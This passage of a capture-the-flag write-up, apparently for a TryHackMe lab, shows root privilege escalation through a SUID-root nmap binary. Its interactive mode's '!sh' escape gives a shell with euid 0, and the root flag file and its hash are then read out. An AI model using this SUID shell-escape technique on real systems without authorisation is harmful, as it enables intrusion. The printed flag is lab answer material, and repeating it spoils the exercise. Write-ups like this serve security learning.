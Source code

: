 ```bash
find: `/root': Permission denied
```

### nmap interactive

I intially looked at `/usr/lib/pt_chown` but the THM hint said "nmap", and I can see it there `/usr/local/bin/nmap`

nmap has an "interactive mode" that `"! <command />   -- runs shell command given in the foreground"`

```bash
ls -l /usr/local/bin/nmap
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
/usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter /> for help
sh
sh
Unknown command (sh) -- press h <enter /> for help
h
h
Nmap Interactive Commands:
n <nmap args /> -- executes an nmap scan using the arguments given and
waits for nmap to finish.  Results are printed to the
screen (of course you can still use file output commands).
! <command />   -- runs shell command given in the foreground
x             -- Exit Nmap
f [--spoof <fakeargs />] [--nmap_path <path />] <nmap args />
-- Executes nmap in the background (results are NOT
printed to the screen).  You should generally specify a
file for results (with -oX, -oG, or -oN).  If you specify
fakeargs with --spoof, Nmap will try to make those
appear in ps listings.  If you wish to execute a special
version of Nmap, specify --nmap_path.
n -h          -- Obtain help with Nmap syntax
h             -- Prints this help screen.
Examples:
n -sS -O -v example.com/24
f --spoof "/usr/local/bin/pico -z hello.c" -sS -oN e.log example.com/24

!sh
!sh
id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
#
```

flag 3

```bash
ls /root
firstboot_done  key-3-of-3.txt
cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
